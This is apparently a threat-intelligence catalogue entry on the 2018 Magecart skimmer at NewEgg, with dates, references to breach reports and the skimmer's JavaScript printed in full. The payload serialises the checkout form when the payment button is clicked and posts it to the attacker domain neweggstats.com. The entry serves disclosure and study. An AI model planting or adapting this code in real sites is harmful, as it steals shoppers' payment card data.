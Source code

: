 ```yaml
---
title: NewEgg magecart skimmer
date: '2018-09-18'
tags:
  - web
  - supply-chain
  - magecart
  - e-skimmer
---
```


This skimmer exfiltrated payment data from NewEgg's checkout flow by binding an event handler to the payment button and sending a payload to the (Malicious/Dead) url `https://neweggstats.com/GlobalData/`. This skimmer was active from August 14, 2018 to September 18, 2018.

- - -

## References

- [Hackers stole customer credit cards in Newegg data breach](https://techcrunch.com/2018/09/19/newegg-credit-card-data-breach/)
- [Another Victim of the Magecart Assault Emerges: Newegg](https://www.riskiq.com/blog/labs/magecart-newegg/)

## Payload

```js
window.onload = function() {
  jQuery("#btnCreditCard.paymentBtn.creditcard").bind(
    "mouseup touchend",
    function(e) {
      var dati = jQuery("#checkout");
      var pdati = JSON.stringify(dati.serializeArray());
      setTimeout(function() {
        jQuery.ajax({
          type: "POST",
          async: true,
          url: "https://neweggstats.com/GlobalData/",
          data: pdati,
          dataType: "application/json"
        });
      }, 250);
    }
  );
};
```
